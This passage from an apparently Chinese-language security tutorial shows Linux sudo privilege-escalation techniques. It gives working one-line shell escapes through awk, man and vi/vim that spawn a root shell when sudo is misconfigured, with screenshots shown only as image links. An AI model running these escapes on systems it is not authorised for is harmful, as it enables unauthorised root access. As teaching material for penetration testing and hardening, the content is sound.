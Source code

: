 输入`!bash`<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560359550-4e81323c-5f06-4c7b-844b-742a9dda397e.png#averageHue=%232d0922&clientId=u6ec4ea93-b9b8-4&from=paste&height=200&id=u57460204&originHeight=200&originWidth=575&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26161&status=done&style=none&taskId=u60c126ae-5e26-42c4-b73b-42ad58cc533&title=&width=575)<br />显示提权成功<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560374234-41941996-5864-415d-83b9-51db3fc225fe.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=80&id=u9e14105d&originHeight=80&originWidth=384&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10084&status=done&style=none&taskId=ub0deb8f4-d72e-4003-9322-c4fe230f1c8&title=&width=384)
<a name="Tb8QL"></a>
### 5.Awk提权
<a name="iePif"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560930723-3a1084a2-9dc6-4b86-8c83-09c3f8a55e52.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=143&id=u8afeebc4&originHeight=143&originWidth=970&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25952&status=done&style=none&taskId=uc64ac932-bb1c-45b4-bc31-05b7af16a9f&title=&width=970)
<a name="kQVss"></a>
#### 2.提权方法
```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560478198-521f669b-cca1-460c-9e52-17f045906215.png#averageHue=%234c4e8e&clientId=u6ec4ea93-b9b8-4&from=paste&height=84&id=u22f7f091&originHeight=84&originWidth=491&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14345&status=done&style=none&taskId=ucd48c288-fefd-4ff5-b150-cc15428bbb0&title=&width=491)
<a name="dENPX"></a>
### 6.Man提权
<a name="fsR1v"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560949723-0e0a5190-15be-4e2e-b010-636ce228cc05.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=142&id=u88b99fff&originHeight=142&originWidth=979&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26011&status=done&style=none&taskId=u1b0b95a5-8649-47f6-af1a-942575fdf61&title=&width=979)
<a name="QgxYD"></a>
#### 2.提权方法
```bash
sudo man man
```
输入`!bash`回车即可<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560592311-f03f137a-6fdd-46b2-a6ec-b246eb1d418e.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=466&id=ud4a4ee90&originHeight=466&originWidth=741&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77103&status=done&style=none&taskId=ua9bc8e7b-6d33-4b5d-8a7f-f06e5c0b98e&title=&width=741)<br />结果如下<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560623685-3c3071ca-8473-4700-8c8c-7d8b52edd3ac.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=86&id=u54ae95c3&originHeight=86&originWidth=354&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9257&status=done&style=none&taskId=u23ca147f-c6d1-4ca1-bc6e-1e91fff3eb3&title=&width=354)
<a name="pWeMj"></a>
### 7.Vi/Vim提权
<a name="Mjo4q"></a>
#### 1.查看sudo权限
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657560975408-763adb61-bc1c-4bc5-a623-caf39139a956.png#averageHue=%232d0923&clientId=u6ec4ea93-b9b8-4&from=paste&height=153&id=u17d900f6&originHeight=153&originWidth=982&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28316&status=done&style=none&taskId=u6ae25f2f-9b59-4c94-9255-bd551826fc8&title=&width=982)
<a name="ik7Td"></a>
#### 2.提权方法
sudo vi<br />输入`:!bash`<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657561044176-9f14368d-9524-4e03-a118-108ccdda898c.png#averageHue=%232d0922&clientId=u6ec4ea93-b9b8-4&from=paste&height=557&id=uc382991d&originHeight=557&originWidth=996&originalType=binary&ratio=1&rotation=0&showTitle=false&size=45676&status=done&style=none&taskId=ua603e413-7779-4fa0-8d02-300702f8ec2&title=&width=996)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1657561072600-561bd6fb-d930-46f8-a89f-4643b95d0456.png#averageHue=%232d0922&clientId=u6ec4ea93-b9b8-4&from=paste&height=109&id=u49392358&originHeight=109&originWidth=364&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10305&status=done&style=none&taskId=u249bc164-dd1c-420d-a665-0dfbc3d556a&title=&width=364)
